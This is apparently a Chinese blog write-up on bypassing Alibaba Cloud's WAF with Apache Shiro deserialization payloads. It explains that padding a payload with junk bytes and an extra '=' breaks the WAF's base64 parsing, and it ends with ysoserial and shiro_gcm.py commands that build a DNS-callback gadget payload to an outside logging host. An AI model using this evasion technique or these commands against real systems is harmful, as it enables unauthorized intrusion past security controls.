

# 记一次shiro爆杀阿里云WAF

先通过dnslog链进行测试，即使危害小也均不能通过。


测试发现删除部分字节则WAF会放过。


此处有两个推理：

推理1：阿里云WAF不会进行行为检查，拦截与否只和能否解析base64字串有关

推理2：阿里云WAF会进行行为检查，拦截也和能否解析base64字串有关


使用精简的dnslog测试不通过


插入大量混淆字符不通过



经过多次测试，结合最开始的情况，确定为推理1

---

精简版dnslog链，结果追加等号，依然可以识别特征


先插入混淆字符，此时仍然失败


注意此处为插入混淆后，末尾追加了一个`=`符号


为什么能成功呢？


奥秘就在base64解析上。

base64编码默认为4的整数倍，不足时会使用`=`符号进行填充，额外增加的`=`因长度无法被4整除导致解析畸形。

阿里云waf使用的编码语言的base64库无法应对这种情况。

其次，在java和javascript的部分base64解码方法中，是允许这种情况出现的，而且额外填充的`=`符号几乎不会影响解码结果


---


记录一下操作的工具https://github.com/woodpecker-framework/ysoserial-for-woodpecker


```bash
java -jar .\ysoserial-for-woodpecker-0.5.2.jar -g FindClassByDNS -a "http://cc31x.7a043e66.dns.1433.eu.org|org.apache.commons.collections.functors.ChainedTransformer" --dirt-data-length 4000| base64 |sed ':label;N;s/\n//;b labe l' >shir2.txt
```


```bash
python3 .\shiro_gcm.py -f E:\winbak\tools\03_POC_EXP\shiro\shir2.txt
```


